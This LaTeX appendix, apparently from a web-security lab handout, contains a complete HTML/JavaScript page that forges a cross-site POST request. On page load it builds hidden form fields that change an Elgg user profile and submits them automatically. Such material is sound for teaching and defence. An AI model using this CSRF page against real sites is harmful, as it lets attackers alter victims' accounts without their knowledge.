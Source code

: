 \appendix

\begin{figure}
{\footnotesize
\begin{Verbatim}[frame=single]
<html><body><h1>
  This page forges an HTTP POST request.
  </h1>
  <script type="text/javascript">

 function post(url,fields)
 {
    //create a <form> element.
    var p = document.createElement("form");
	 
    //construct the form
    p.action = url;
    p.innerHTML = fields;
    p.target = "_self";
    p.method = "post";
	 
    //append the form to the current page.
    document.body.appendChild(p);
	 
   //submit the form
    p.submit();
 }

 function csrf_hack()
 {				
    var fields;

    // The following are form entries that need to be filled out
    // by attackers. The entries are made hidden, so the victim
    // won't be able to see them.
    fields += "<input type='hidden' name='name' value='elgguser1'>";
    fields += "<input type='hidden' name='description' value=''>";
    fields += "<input type='hidden' name='accesslevel[description]' value='2'>";
    fields += "<input type='hidden' name='briefdescription' value=''>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='location' value=''>";
    fields += "<input type='hidden' name='accesslevel[location]' value='2'>";				
    fields += "<input type='hidden' name='guid' value='39'>";
    var url = "http://www.example.com";

    post(url,fields);
 }
	
 // invoke csrf_hack() after the page is loaded.
 window.onload = function() { csrf_hack();}
  </script>
 </body></html>
\end{Verbatim}
}
\caption{Sample JavaScript program}
\label{fig:jsscript}
\end{figure}






